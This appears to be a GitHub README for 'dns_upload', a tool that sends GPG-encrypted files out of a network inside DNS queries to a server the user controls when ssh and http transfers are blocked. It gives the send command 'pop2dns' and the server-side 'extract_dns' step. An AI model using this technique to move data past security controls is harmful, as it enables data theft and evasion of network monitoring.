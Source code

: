 # dns_upload

In the scenario where you need to transmit data, but many controls are in place to prevent ssh or http based transfers,
but DNS is open to the internet, you can transmit data in DNS requests. It is not ideal, but it is a way.

Transmitting encrypted data over dns to a dns server you have access to with  "rndc querylog on". 

Name the file you want to send as file.txt

pop2dns $password $dnsserver

Where $password is the password used by gpg to encrypt
and $dnsserver is your dns server.

Once back on your dns server, you will have to extract the segment in question from the logs into a file named examine.txt
then.

extract_dns

Then you will have file.txt.asc which can be decrypted with gpg using the password sent in by pop2dns.
